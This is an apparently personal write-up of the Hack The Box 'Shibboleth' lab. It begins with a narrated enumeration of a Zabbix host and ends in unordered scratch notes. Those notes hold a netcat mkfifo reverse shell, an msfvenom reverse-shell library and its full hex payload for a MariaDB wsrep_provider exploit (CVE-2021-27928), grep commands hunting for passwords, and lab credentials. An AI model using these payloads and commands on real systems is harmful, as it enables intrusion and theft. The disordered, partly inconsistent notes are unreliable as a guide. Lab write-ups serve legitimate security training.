



# Shibboleth 10.10.11.124

Core Concepts:

## Enumeration

As is tradition we begin with an nmap scan.

```
nmap -sV -sC -Pn 10.10.11.124 -o nmap.shibboleth.txt
```

nmap reveals a port 80 is open meaning we likely have a website.  Let's add `10.10.11.124   shibboleth.htb` to `/etc/hosts/` and browse to the site.


If you've read any of my previous writeups you should know that a website screams 'GOBUSTER!'  So pick your favorite subdomain wordlist and let's go.

```
wget https://raw.githubusercontent.com/rbsec/dnscan/master/subdomains-10000.txt
gobuster dir -u shibboleth.htb -w subdomains-10000.txt
```

Gobuster revealed 2 subdomains:

```
/forms
/assets
```




Neither one of the subdomains seems to reveal anything of use.  So we continue the enumeration.  Maybe we'll have more luck with FFUF.

```
wfuzz -H "Host: FUZZ.shibboleth.htb" -w subdomains-10000.txt --hh 290 --hc 302 http://shibboleth.htb/ > fuzz.shibboleth.txt
```

Wfuzz gives us 3 more domains to work with:

```
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shibboleth.htb/
Total requests: 9985

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                       
=====================================================================

000000110:   200        29 L     219 W      3684 Ch     "monitor"                                     
000000339:   200        29 L     219 W      3684 Ch "zabbix"                                      
000000388:   200        29 L     219 W      3684 Ch     
"monitoring"  
```

Browsing to the newfound pages we find that they all lead to the same login page. Ex. zabbix.shibboleth.htb (your /etc/hosts should look something like the copy/paste below).

```
##
# Host Database
#
# localhost is used to configure the loopback interface
# when the system is booting.  Do not change this entry.
##
127.0.0.1       localhost
255.255.255.255 broadcasthost
::1             localhost
10.10.11.124    shibboleth.htb  zabbix.shibboleth.htb   monitor.shibboleth.htb  monitoring.shibboleth.htb
```


For good measure let's gobust the zabbix.shibboleth.htb directory just in case we find something new.

```
gobuster dir -u zabbix.shibboleth.htb -w subdomains-10000.txt -o gobuster.zabbix.shiboleth.txt
gobuster dir -u zabbix.shibboleth.htb -w Filenames_or_Directories_Common.wordlist -o gobuster2.zabbix.shiboleth.txt
```

The additional scans revealed a ton of new directories including some .php directories.  

```
msfconsole
msf6 > search zabbix

Matching Modules
================

   #  Name                                    Disclosure Date  Rank       Check  Description
   -  ----                                    ---------------  ----       -----  -----------
   0  exploit/linux/http/zabbix_sqli          2013-09-23       excellent  Yes    Zabbix 2.0.8 SQL Injection and Remote Code Execution
   1  exploit/unix/misc/zabbix_agent_exec     2009-09-10       excellent  No     Zabbix Agent net.tcp.listen Command Injection
   2  exploit/multi/http/zabbix_script_exec   2013-10-30       excellent  Yes    Zabbix Authenticated Remote Command Execution
   3  exploit/linux/misc/zabbix_server_exec   2009-09-10       excellent  Yes    Zabbix Server Arbitrary Command Execution
   4  auxiliary/scanner/http/zabbix_login                      normal     No     Zabbix Server Brute Force Utility
   5  auxiliary/gather/zabbix_toggleids_sqli  2016-08-11       normal     Yes    Zabbix toggle_ids SQL Injection


Interact with a module by name or index. For example info 5, use 5 or use auxiliary/gather/zabbix_toggleids_sqli
```

After some intense googling and msfconsole work we found 

https://subscription.packtpub.com/book/networking-and-servers/9781789340266/14/ch14lvl1sec17/setting-up-ipmi-items

Zabbix runs an exploitable service on port 623 

https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/

```
msf6 > search ipmi

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank    Check  Description
   -  ----                                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ipmi/ipmi_cipher_zero                 2013-06-20       normal  No     IPMI 2.0 Cipher Zero Authentication Bypass Scanner
   1  auxiliary/scanner/ipmi/ipmi_dumphashes                  2013-06-20       normal  No     IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval
   2  auxiliary/scanner/ipmi/ipmi_version                                      normal  No     IPMI Information Discovery
   3  exploit/multi/upnp/libupnp_ssdp_overflow                2013-01-29       normal  No     Portable UPnP SDK unique_service_name() Remote Code Execution
   4  auxiliary/scanner/http/smt_ipmi_cgi_scanner             2013-11-06       normal  No     Supermicro Onboard IPMI CGI Vulnerability Scanner
   5  auxiliary/scanner/http/smt_ipmi_49152_exposure          2014-06-19       normal  No     Supermicro Onboard IPMI Port 49152 Sensitive File Exposure
   6  auxiliary/scanner/http/smt_ipmi_static_cert_scanner     2013-11-06       normal  No     Supermicro Onboard IPMI Static SSL Certificate Scanner
   7  exploit/linux/http/smt_ipmi_close_window_bof            2013-11-06       good    Yes    Supermicro Onboard IPMI close_window.cgi Buffer Overflow
   8  auxiliary/scanner/http/smt_ipmi_url_redirect_traversal  2013-11-06       normal  No     Supermicro Onboard IPMI url_redirect.cgi Authenticated Directory Traversal


Interact with a module by name or index. For example info 8, use 8 or use auxiliary/scanner/http/smt_ipmi_url_redirect_traversal
```

searching msfconsole for IMPI we find.

```1  auxiliary/scanner/ipmi/ipmi_dumphashes                  2013-06-20       normal  No     IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval```

It's a little old but worth a shot I guess.

system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.20 1234 >/tmp/f &,nowait]

su ipmi-svc 

Administrator:ilovepumkinpie1

DBPassword=bloooarskybluh

python3 -c 'print(open("CVE-2021-27928.so", "rb").read().hex())'

mysql -u zabbix -p -D zabbix

./msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.63 LPORT=4444 -f elf-so -o CVE-2021-27928.so

scp CVE-2021-27928.so zabbix@10.10.11.124:/tmp/CVE-2021-27928.so
scp CVE-2021-27928.so taylor@10.10.14.63:/opt/metasploit-framework/bin/CVE-2021-27928.so

taylor@macs-MBP-4 bin % python3 -c 'print(open("CVE-2021-27928.so", "rb").read().hex())'
7f454c4602010100000000000000000003003e000100000092010000000000004000000000000000b000000000000000000000004000380002004000020001000100000007000000000000000000000000000000000000000000000000000000dc0100000000000026020000000000000010000000000000020000000700000030010000000000003001000000000000300100000000000060000000000000006000000000000000001000000000000001000000060000000000000000000000300100000000000030010000000000006000000000000000000000000000000008000000000000000700000000000000000000000300000000000000000000009001000000000000900100000000000002000000000000000000000000000000000000000000000000000000000000000c00000000000000920100000000000005000000000000009001000000000000060000000000000090010000000000000a0000000000000000000000000000000b0000000000000000000000000000000000000000000000000000000000000000006a2958996a025f6a015e0f05489748b90200115c0a0a0e3f514889e66a105a6a2a580f056a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f736800534889e752574889e60f05

SELECT UNHEX('7f454c4602010100000000000000000003003e000100000092010000000000004000000000000000b000000000000000000000004000380002004000020001000100000007000000000000000000000000000000000000000000000000000000dc0100000000000026020000000000000010000000000000020000000700000030010000000000003001000000000000300100000000000060000000000000006000000000000000001000000000000001000000060000000000000000000000300100000000000030010000000000006000000000000000000000000000000008000000000000000700000000000000000000000300000000000000000000009001000000000000900100000000000002000000000000000000000000000000000000000000000000000000000000000c00000000000000920100000000000005000000000000009001000000000000060000000000000090010000000000000a0000000000000000000000000000000b0000000000000000000000000000000000000000000000000000000000000000006a2958996a025f6a015e0f05489748b9020000160a0a0e3f514889e66a105a6a2a580f056a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f736800534889e752574889e60f05') into dumpfile '/tmp/CVE-2021-27928.so';

SET GLOBAL wsrep_provider="/tmp/exploit";

/bin/sh -i

grep -iR 'user' /etc/zabbix/ 2>/dev/null
grep -iR 'dbname' /etc/zabbix/ 2>/dev/null
grep -iR 'password' /etc/zabbix/ 2>/dev/null

exec "/bin/sh"

wget 10.10.14.63:8000/CVE-2021-27928.so

SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so.2";
SET GLOBAL wsrep_provider="/CVE-2021-27928.so.2";

mysql -u zabbix -p -D zabbix bloooarskybluh

python3 -c 'print(open("CVE-2021-27928.so.2", "rb").read().hex())'

mysql -u zabbix -p'bloooarskybluh' -h 127.0.0.1 -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so.2";'

OMG netcat never confirms the connection... you have to `whoami` to see it was successful

